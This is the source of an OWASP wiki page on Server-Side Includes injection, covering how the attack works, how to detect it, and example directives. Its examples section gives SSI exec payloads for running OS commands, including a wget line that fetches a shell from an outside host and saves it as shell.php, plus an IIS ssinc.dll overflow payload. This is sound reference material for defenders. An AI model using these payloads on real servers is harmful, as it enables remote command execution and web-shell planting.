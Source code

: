 ```yaml
---

layout: col-sidebar
title: Server-Side Includes (SSI) Injection
author: 
contributors: 
permalink: /attacks/Server-Side_Includes_(SSI)_Injection
tags: attack, Server-Side Includes (SSI) Injection
auto-migrated: 1

---
```


## Description

SSIs are directives present on Web applications used to feed an HTML
page with dynamic contents. They are similar to CGIs, except that SSIs
are used to execute some actions before the current page is loaded or
while the page is being visualized. In order to do so, the web server
analyzes SSI before supplying the page to the user.

The Server-Side Includes attack allows the exploitation of a web
application by injecting scripts in HTML pages or executing arbitrary
codes remotely. It can be exploited through manipulation of SSI in use
in the application or force its use through user input fields.

It is possible to check if the application is properly validating input
fields data by inserting characters that are used in SSI directives,
like:

`< ! # = / . " - > and [a-zA-Z0-9] `

Another way to discover if the application is vulnerable is to verify
the presence of pages with extension .stm, .shtm and .shtml. However,
the lack of these type of pages does not mean that the application is
protected against SSI attacks.

In any case, the attack will be successful only if the web server
permits SSI execution without proper validation. This can lead to access
and manipulation of file system and process under the permission of the
web server process owner.

The attacker can access sensitive information, such as password files,
and execute shell commands. The SSI directives are injected in input
fields and they are sent to the web server. The web server parses and
executes the directives before supplying the page. Then, the attack
result will be viewable the next time that the page is loaded for the
user's browser.

## Risk Factors

TBD

## Examples

### Example 1

The commands used to inject SSI vary according to the server operational
system in use. The following commands represent the syntax that should
be used to execute OS commands.

**Linux:**

List files of directory:

`<!--#exec cmd="ls" -->`

Access directories:

`<!--#exec cmd="cd /root/dir/">`

Execution script:

`<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->`

**Windows:**

List files of directory:

`<!--#exec cmd="dir" -->`

Access directories:

`<!--#exec cmd="cd C:\admin\dir">`

### Example 2

Other SSI examples that can be used to access and set server
information:

To change the error message output:

`<!--#config errmsg="File not found, informs users and password"-->`

To show current document filename:

`<!--#echo var="DOCUMENT_NAME" -->`

To show virtual path and filename:

`<!--#echo var="DOCUMENT_URI" -->`

Using the “config” command and “timefmt” parameter, it is possible to
control the date and time output format:

`<!--#config timefmt="A %B %d %Y %r"-->`

Using the “fsize” command, it is possible to print the size of selected
file:

`<!--#fsize file="ssi.shtml" -->`

### Example 3

An old vulnerability in the IIS versions 4.0 and 5.0 allows an attacker
to obtain system privileges through a buffer overflow failure in a
dynamic link library (ssinc.dll). The “ssinc.dll” is used to interpreter
process Server-Side Includes.
[CVE 2001-0506](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CAN-2001-0506).

By creating a malicious page containing the SSI code bellow and forcing
the application to load this page ([Path
Traversal](Path_Traversal "wikilink") attack), it’s possible to perform
this attack:

ssi_over.shtml

`<!--#include file=”UUUUUUUU...UU”-->`

PS: The number of “U” needs to be longer than 2049.

Forcing application to load the ssi_over.shtml page:

Non-malicious URL:

`www.vulnerablesite.org/index.asp?page=news.asp`

Malicious URL:

`www.vulnerablesite.org/index.asp?page=www.malicioussite.com/ssi_over.shtml`

If the IIS return a blank page it indicates that an overflow has
occurred. In this case, the attacker might manipulate the procedure flow
and executes arbitrary code.

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Command
    Execution](:Category:Command_Execution "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Code Injection](Code_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## References

  - <http://www.comptechdoc.org/independent/web/cgi/ssimanual/ssiexamples.html>
    - SSI Examples

\[\[Category:FIXME|link not working

  - <http://www.students.mines.edu/examples/> - CGI and SSI Examples

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[need content here](Category:FIXME "wikilink")
[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink")